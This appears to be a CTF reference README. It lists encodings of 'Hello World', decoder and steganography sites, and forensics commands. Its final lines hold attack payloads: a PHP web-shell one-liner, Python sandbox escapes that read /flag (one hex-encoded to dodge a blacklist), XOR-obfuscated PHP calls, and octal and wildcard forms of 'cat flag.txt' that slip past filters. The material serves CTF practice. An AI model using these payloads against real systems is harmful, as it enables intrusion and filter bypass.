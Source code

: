 # CTF-Reference
**Reference for CTF Challenges.**

**Note :** All the encoded/encrypted strings are 'Hello World".

List of Numeral Systems - https://en.wikipedia.org/wiki/List_of_numeral_systems

Base 26(Hexavigesimal) => 3752127 10786572 -  https://www.dcode.fr/base-26-cipher

Base 32 => NBSWY3DPEB3W64TMMQ====== - https://www.dcode.fr/base-32-encoding

Base 58 => StV1DL6CwTryKyV - https://www.dcode.fr/base-58-cipher

Base 64 => aGVsbG8gd29ybGQ= - https://www.dcode.fr/base-64-encoding

Base 85(Ascii85) => BOu!rD]j7BEbo7 - https://www.dcode.fr/ascii-85-encoding

Base 91 => >OwJh>Io0Tv!lE - https://www.dcode.fr/base-91-encoding

Base65536 => 驈ꍬ啯𒁗ꍲᕤ - https://www.better-converter.com/Encoders-Decoders/Base65536-Decode

Twin Hex ==> 30l5os5uo44v64s51c - https://www.calcresult.com/misc/cyphers/twin-hex.html

Ascii to x86 Disassembly - https://gchq.github.io/CyberChef/#recipe=From_Decimal('Comma',false)To_Hex('Space',0)Disassemble_x86('64','Full%20x86%20architecture',16,0,true,true)

Zero-width space Decoder - https://offdev.net/demos/zwsp-steg-js.

Unicode Analyzer - https://www.fontspace.com/unicode/analyzer

Live Disassembler - https://godbolt.org/

Linux Command Explaination - https://explainshell.com

Fernet online decoder - https://asecuritysite.com/encryption/ferdecode

Online Stegnography Tool - https://stegonline.georgeom.net/upload

Dig Webinterface - https://www.digwebinterface.com

Gif splitter - https://ezgif.com/split

convert challange.gif -transparent white result.gif

Online Packet analyser - https://apackets.com

Dual Tone Multi Frequency - http://dialabc.com/sound/detect/index.html

Cipher Identifier - https://www.boxentriq.com/code-breaking/cipher-identifier

pngcheck -qv test.png - Use this command to check for broken png.

Png repair tool - https://github.com/sherlly/PCRT

Simple one liner - `<?php system("whoami");?>`

Python Sandbox escape - `globals()["__builtins__"].open("/flag").read()`

Escape while builtins and open is blacklisted - `globals().__getitem__(bytes.fromhex(%275f5f6275696c74696e735f5f%27).decode(%27utf-8%27)).__getitem__(bytes.fromhex(%276f70656e%27).decode(%27utf-8%27))(%22/flag%22,%20%22r%22).read()`

Hashes Ref : https://blog.csdn.net/u013512548/article/details/108213295

PHP calc :

`('000000'^'8288~!'^'{{{|+|')('000000000000'^'~,81~!,,0838'^'-}|!(}}{.|{|')`

`\143\141\164\40\146\154\141\147\56\164\170\164`

`/???/??? ????.???` - /bin/cat flag.txt
